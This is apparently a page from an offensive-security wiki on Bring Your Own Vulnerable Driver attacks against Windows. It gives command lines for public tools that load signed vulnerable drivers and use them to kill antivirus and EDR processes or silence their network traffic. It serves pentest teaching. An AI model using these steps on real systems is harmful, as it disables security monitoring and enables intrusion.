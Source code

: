 ```yaml
---
description: MITRE ATT&CK™ Exploitation for Privilege Escalation - Technique T1068
---
```


# 🛠️ Bring Your Own Vulnerable Driver (BYOVD)

## Theory

As a security mechanism, Windows by default employs a feature called [Driver Signature Enforcement ](https://learn.microsoft.com/en-us/windows-hardware/drivers/install/driver-signing)that ensures kernel-mode drivers have been signed by a valid code signing authority before Windows will permit them to run.

However, we may bring a signed vulnerable driver onto a compromised machine so that we can exploit the vulnerability to execute code in kernel mode.&#x20;

{% hint style="danger" %}
That technique requires administrative privileges on the target.
{% endhint %}

## Practice

### Killing AV/EDDR

Gaining kernel-mode access through vulnerable drivers exploit enables a [Windows Kernel-Mode Code Integrity (KMCI)](https://learn.microsoft.com/en-us/windows/security/hardware-security/enable-virtualization-based-protection-of-code-integrity) bypass, allowing the termination of [Protected Process Light (PPL)](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-#system-protected-process) processes, such as EDR or AV tools.

{% tabs %}
{% tab title="procexp.sys " %}
[Backstab](https://github.com/Yaxser/Backstab) is a tool capable of killing antimalware protected processes by leveraging sysinternals’ [Process Explorer](https://learn.microsoft.com/fr-fr/sysinternals/downloads/process-explorer) driver ([procexp.sys](https://www.loldrivers.io/drivers/0567c6c4-282f-406f-9369-7f876b899c25/?query=procexp)).

```bash
# -n,	Choose process by name, including the .exe suffix
# -p, 	Choose process by PID
# -l, 	List handles of protected process
# -k, 	Kill the protected process by closing its handles
# -x, 	Close a specific handle
# -d, 	Specify path to where ProcExp will be extracted
# -s, 	Specify service name registry key
# -u, 	Unload ProcExp driver
# -a,	adds SeDebugPrivilege

#Examples:
#Kill cyserver
backstab.exe -n cyserver.exe -k

#Close handle E4C of cyserver
backstab.exe -n cyserver.exe -x E4C

#List all handles of cyserver
backstab.exe -n cyserver.exe -l

#Kill protected process with PID 4326, extract ProcExp driver to C:\ drive
backstab.exe -p 4326 -k -d c:\\driver.sys
```
{% endtab %}

{% tab title="truesight.sys" %}
[Truesight.sys](https://www.loldrivers.io/drivers/e0e93453-1007-4799-ad02-9b461b7e0398/?query=truesight.s) is a vulnerable driver from Rogue Anti-Malware Driver 3.3. It can be abuse to kill a PPL process

#### Darkside

[Darkside](https://github.com/ph4nt0mbyt3/Darkside) is a C# AV/EDR Killer that exploit the truesight.sys driver. To exploit, first load and start the driver:

```powershell
sc create TrueSight binPath="c:\path\to\truesight.sys" type= kernel start= demand
sc start TrueSight
```

Then, start Darkside by specifing the PID to kill.

```powershell
Darkside.exe -p <PID>
```

#### TrueSightKiller

[TrueSightKiller](https://github.com/MaorSabag/TrueSightKiller) is a CPP AV/EDR Killer that exploit the truesight.sys driver. To exploit, you need to have the `truesight.sys` driver located at the same location as the executable.

```powershell
# By porcess name
TrueSightKiller.exe -n <ProcessName.exe>

# By pid
TrueSightKiller.exe -p <PID>
```
{% endtab %}

{% tab title="zam64.sys" %}
[Terminator](https://github.com/ZeroMemoryEx/Terminator) terminate all EDR/XDR/AVs processes by abusing the [zam64.sys](https://www.loldrivers.io/drivers/e5f12b82-8d07-474e-9587-8c7b3714d60c/?query=zam64) driver. To exploit, place the driver Terminator.sys in the same path as the executable

```
Terminator.exe
```
{% endtab %}
{% endtabs %}

### Windows Filtering Platform (WPF) Callout Driver



{% tabs %}
{% tab title="EDRPrison" %}
[EDRPrison](https://github.com/senzee1984/EDRPrison) leverages a legitimate WFP callout driver, [WinDivert](https://reqrypt.org/windivert.html), to effectively silence EDR systems. This project focuses on network-based evasion techniques.&#x20;

EDRPrison installs and loads an external legitimate WFP callout driver instead of relying solely on the built-in WFP. Additionally, it blocks outbound traffic from EDR processes by dynamically adding runtime filters without directly interacting with the EDR processes or their executables.

```
EDRPrison.exe
```
{% endtab %}
{% endtabs %}

### Kernel Object Tampering

Notify Routine callbacks, Object Callbacks and ETW TI provider

[https://github.com/wavestone-cdt/EDRSandblast](https://github.com/wavestone-cdt/EDRSandblast)\


### Hijacking Valid Drivers

[https://github.com/klezVirus/DriverJack](https://github.com/klezVirus/DriverJack)

## Resources
